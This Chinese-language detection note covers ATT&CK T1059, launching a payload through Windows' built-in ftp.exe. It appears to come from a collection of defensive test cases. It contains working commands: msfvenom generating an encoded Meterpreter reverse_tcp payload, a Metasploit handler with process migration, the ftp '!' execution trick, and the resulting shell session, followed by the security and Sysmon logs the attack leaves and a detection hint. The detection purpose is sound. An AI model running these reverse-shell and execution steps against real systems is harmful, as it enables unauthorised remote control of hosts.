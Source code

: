 # T1059-win-基于白名单Ftp.exe执行Payload

## 来自ATT&CK的描述

命令行界面是与计算机系统交互的一种方式，并且是很多操作系统平台的常见特性。例如，Windows系统上的命令行界面cmd可用于执行许多任务，包括执行其他软件。命令行界面可在本地交互或者通过远程桌面应用、反向shell会话等远程交互。执行的命令以命令行界面进程的当前权限级别运行，除非该命令需要调用进程来更改权限上下文（例如，定时任务）。

攻击者可能会使用命令行界面与系统交互并在操作过程中执行其他软件。

## 测试案例

Ftp.exe是Windows本身自带的一个程序，属于微软FTP工具，提供基本的FTP访问。

说明：Ftp.exe所在路径已被系统添加PATH环境变量中，因此，Ftp.exe命令可识别。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

Windows 2003 默认位置：
C:\Windows\System32\ftp.exe

C:\Windows\SysWOW64\ftp.exe

Windows 7 默认位置：

C:\Windows\System32\ftp.exe

C:\Windows\SysWOW64\ftp.exe

## 检测日志

windows 安全日志/SYSMON日志（需要自行安装）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows server 2012

### 攻击分析

#### 生成payload.exe

```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=53 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o payload.exe
```

#### 执行监听

攻击机,注意配置set AutoRunScript migrate f (AutoRunScript是msf中一个强大的自动化的后渗透工具，这里migrate参数是迁移木马到其他进程)

```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 53
lport => 53
msf5 exploit(multi/handler) > set AutoRunScript migrate -f
AutoRunScript => migrate -f
msf5 exploit(multi/handler) > exploit
```

#### 执行payload

```cmd
ftp>!C:\Users\12306Br0\Desktop\a\payload.exe
```

#### 反弹shell

```bash
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.126.146:53
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 1 opened (192.168.126.146:53 -> 192.168.126.149:49219) at 2020-04-18 20:08:18 +0800
[*] Session ID 1 (192.168.126.146:53 -> 192.168.126.149:49219) processing AutoRunScript 'migrate -f'
[!] Meterpreter scripts are deprecated. Try post/windows/manage/migrate.
[!] Example: run post/windows/manage/migrate OPTION=value [...]
[*] Current server process: payload.exe (2324)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 2888
[+] Successfully migrated to process

meterpreter > getuid
Server username: 12306Br0-PC\12306Br0

```

## 测试留痕

```log
EventID:4688 #安全日志，windows server 2012以上配置审核策略，可对命令参数进行记录
进程信息:
新进程 ID: 0x474
新进程名: C:\Windows\System32\cmd.exe

EventID:4688
进程信息:
新进程 ID: 0x3f8
新进程名: C:\Users\12306Br0\Desktop\a\payload.exe

EventID:5156
应用程序信息:
进程 ID: 1016
应用程序名称: \device\harddiskvolume2\users\12306br0\desktop\a\payload.exe

网络信息:
方向: 出站
源地址: 192.168.126.149
源端口: 49221
目标地址: 192.168.126.146
目标端口: 53
协议: 6

EventID:1 #sysmon日志
Image: C:\Windows\System32\cmd.exe
FileVersion: 6.1.7601.17514 (win7sp1_rtm.101119-1850)
Description: Windows Command Processor
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: Cmd.Exe
CommandLine: C:\Windows\system32\cmd.exe /C C:\Users\12306Br0\Desktop\a\payload.exe
CurrentDirectory: C:\Windows\system32\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-e7a1-5e9a-0000-0020ac500500}
LogonId: 0x550ac
TerminalSessionId: 1
IntegrityLevel: High
Hashes: SHA1=0F3C4FF28F354AEDE202D54E9D1C5529A3BF87D8
ParentProcessGuid: {bb1f7c32-ed99-5e9a-0000-00105addaf00}
ParentProcessId: 1112
ParentImage: C:\Windows\System32\ftp.exe
ParentCommandLine: ftp
```

## 检测规则/思路

无具体检测规则，可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略Sysmon。

## 参考推荐

MITRE-ATT&CK-T1059

<https://attack.mitre.org/techniques/T1059/>

基于白名单Ftp.exe执行Payload

<https://www.77169.net/html/235306.html>

基于白名单的Payload

s<https://blog.csdn.net/weixin_30790841/article/details/101848854>
